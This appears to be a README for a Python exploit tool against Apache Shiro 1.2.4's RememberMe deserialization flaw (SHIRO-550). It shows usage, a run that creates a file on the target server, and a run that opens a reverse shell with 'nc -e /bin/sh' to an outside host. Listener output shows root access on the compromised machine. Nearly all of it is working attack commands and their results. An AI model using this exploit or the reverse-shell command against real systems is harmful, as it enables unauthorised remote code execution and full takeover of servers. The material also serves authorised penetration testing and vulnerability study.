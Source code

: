 # Shiro RememberMe 1.2.4 反序列化漏洞（SHIRO-550）

![](./SHIRO-550.gif)

## python usage:

```
python3 shiro_rce.py


   _____ _    _ _____ _____   ____         _____ _____  ___
  / ____| |  | |_   _|  __ \ / __ \       | ____| ____|/ _ \
 | (___ | |__| | | | | |__) | |  | |______| |__ | |__ | | | |
  \___ \|  __  | | | |  _  /| |  | |______|___ \|___ \| | | |
  ____) | |  | |_| |_| | \ \| |__| |       ___) |___) | |_| |
 |_____/|_|  |_|_____|_|  \_\____/       |____/|____/ \___/

            Shiro RememberMe 1.2.4 反序列化漏洞




[+] Usage: python3 shiro_rce.py http://10.10.20.166:8080/shiro/ command

```

## touch file

```
python3 shiro_rce.py http://10.10.20.166:8080/samples-web-1.2.4/ "touch /tmp/123123123123"


   _____ _    _ _____ _____   ____         _____ _____  ___
  / ____| |  | |_   _|  __ \ / __ \       | ____| ____|/ _ \
 | (___ | |__| | | | | |__) | |  | |______| |__ | |__ | | | |
  \___ \|  __  | | | |  _  /| |  | |______|___ \|___ \| | | |
  ____) | |  | |_| |_| | \ \| |__| |       ___) |___) | |_| |
 |_____/|_|  |_|_____|_|  \_\____/       |____/|____/ \___/

            Shiro RememberMe 1.2.4 反序列化漏洞



2019-10-25 13:43:00

[+] Send POC Success
[+] Exit Shiro RCE Vuln
```

## Reverse shell

```
python3 shiro_rce.py http://10.10.20.166:8080/samples-web-1.2.4/ "nc -e /bin/sh 192.168.5.86 9999"


   _____ _    _ _____ _____   ____         _____ _____  ___
  / ____| |  | |_   _|  __ \ / __ \       | ____| ____|/ _ \
 | (___ | |__| | | | | |__) | |  | |______| |__ | |__ | | | |
  \___ \|  __  | | | |  _  /| |  | |______|___ \|___ \| | | |
  ____) | |  | |_| |_| | \ \| |__| |       ___) |___) | |_| |
 |_____/|_|  |_|_____|_|  \_\____/       |____/|____/ \___/

            Shiro RememberMe 1.2.4 反序列化漏洞



2019-10-25 13:43:33

[+] Send POC Success
[+] Exit Shiro RCE Vuln
```

```
C:\Users\CTF>nc -nlvp 9999
listening on [any] 9999 ...
connect to [192.168.5.86] from (UNKNOWN) [10.10.20.166] 38656
id
uid=0(root) gid=0(root) groups=0(root)
cd /tmp
ls
123123123123
```

## 参考链接：

http://blog.orange.tw/2018/03/pwn-ctf-platform-with-java-jrmp-gadget.html

https://bling.kapsi.fi/blog/jvm-deserialization-broken-classldr.html

https://blog.zsxsoft.com/post/35

https://paper.seebug.org/shiro-rememberme-1-2-4/
